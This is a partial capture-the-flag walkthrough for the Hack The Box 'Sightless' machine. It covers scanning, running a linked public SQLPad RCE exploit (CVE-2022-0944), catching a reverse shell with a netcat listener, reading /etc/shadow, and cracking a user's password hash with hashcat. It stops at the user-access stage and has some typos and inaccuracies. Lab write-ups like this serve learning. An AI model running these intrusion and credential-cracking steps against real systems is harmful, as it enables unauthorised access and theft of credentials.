




# A guide for the HTB CTF challenge "Sightless"

### My target IP: 10.10.11.32  (your target IP might vary), using Kali Linux

#### Hunt for the user flag.txt

First we being with a typical nmap scan to see what is going on.  I will use rustscan for the initial scan.  If you do not have rustscan the follow command will install it:
```
wget https://github.com/RustScan/RustScan/releases/download/2.0.1/rustscan_2.0.1_amd64.deb
sudo dpkg -i rustscan_2.0.1_amd64.deb
```
You can then verify the installation by using:
```rustscan --version``` to confirm installation.

Once rustscan is ready to go we being with command ```rustscan -a 10.10.11.32 -- -sC -sV```

The result of the scan can be seen below:


The take away from the scan is that ports 21, 22, and 80 are open.  It is unlikely we will have any luck directly attacking ports 21 and 22, so lets being our exploration at port 80.  Within the port 80 result we can see that the scan has recorded a redirect from our target, ```http-title: Did not follow redirect to http://sightless.htb/``` we will need to accomidate this within our host file.  If we go directly to the target ip via a web browser we hit a dead end.  So lets fix this by using the following:
```nano /etc/hosts```
within the file end the target ip & name of site (sightless.htb) ```10.10.11.32  sightless.htb```  save file and we're ready.

One we reach sightless.htb we can take a quick look and notice there isn't much to see.  No login fields, no file submission opportunities.  But within the minimalist home page we can see that one link stands out, shown below



Clicking here makes an attempt to take us to http://sqlpad.sightless.htb  We have found a new subdomain!  This will require we update the /etc/hosts file agian, just as before we create a line with the target IP and now sqlpad.sightless.htb and we're ready to go.

Once reaching sqlpad.sightless.htb we find there really isn't much here.  We're not going to be finding any credentials within this GUI, its empty.  But we can attack the sqlpad service.  We can discover the version by selecting the dots in the top right corner, shown here:



Okay, well we now know the version is 6.10.0.  A quick search on google and there is some potential here for an exploit.  I tried several exploits online but only had luck with one of them.  The exploit hosted here: [https://sploitus.com/exploit?id=71EF4FD3-E934-5708-8650-46510BE372AC](https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944)

The exploit is pretty easy to use.  From the above link download the "exploit.py" file.  Open up a listen on your machine to catch the response we are about to elicit, this can be done with ```nc -lvnp 4444```

With oru listener running we then execute our newly downloaded exploit as follows: ```python exploit.py (target url) (your ip) (port you selected, probably 4444)``` which will look like this:



Success!  When we go check our listener will now see an established an ssh connection with the target.  

After poking around for a while I could not come up with much.  I had hoped to find somethign related to sqlpad, maybe a database with credentials, but I did not find anything.  But when we head over and look at the encrypted user crednetial on the account we find one line of interest.  Within the /etc/shadow file exists the line:

```michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::```

So we know there is a user michael, but currently the password is unknown to us.  But we can figure it out.  Lets take the hash value portion of the above line and put it into a text file.

```echo '$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/' > hash.txt```

That will create our file containting the hashed password.  Now we can utalize hashcat to see what we can find.

```hashcat -m 1800 -a 0 hash.txt /usr/share/wordlists/rockyou.txt```  

SUCCESS!  We have found the password - "insaneclownposse"  So lets see if we can now SSH into the target IP...



Half way done, maybe.


